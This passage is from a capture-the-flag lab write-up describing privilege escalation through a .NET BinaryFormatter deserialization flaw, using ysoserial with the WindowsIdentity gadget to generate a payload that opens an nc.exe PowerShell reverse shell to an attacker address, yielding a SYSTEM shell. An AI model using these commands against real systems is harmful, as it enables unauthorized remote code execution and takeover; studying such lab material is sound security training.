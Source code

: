 Once we have the executable file on the target machine. We can execute it setting the formatter to `BinaryFormatter` (remember it was the function being used to deserialize), the `WindowsIdentity` gadget, that we want the payload in `Base64` format (remember the deserialize function received a `Base64` string) and the command that we want to execute (simple `powershell` reverse shell with the `nc.exe` binary we have uploaded previously) :

```powershell
.\ysoserial.exe -f BinaryFormatter -g WindowsIdentity -o base64 -c "C:\Temp\nc.exe -e powershell.exe 10.10.14.11 443"
```

![Desktop View](ysoserial2.png){: w="700" h="400" }
_ysoserial Payload_

Once we have the payload generated, we will copy it. Now we will connect via `nc` to port 4411 on the target machine. Then, we will listen on a port for the reverse shell with `rlwrap nc -nlvp 443`. Last, we will type the following into the `nc` connection:

```bash
UPLOAD_ORDER;{PAYLOAD}
```

![Desktop View](ysoserial3.png){: w="700" h="400" }
_System Reverse Shell_

We can see how we have a shell as the `nt authority\system` user, so we will proceed to visualize the `root.txt` flag in the `C:\Users\Administrator\Desktop`{: .filepath} directory.
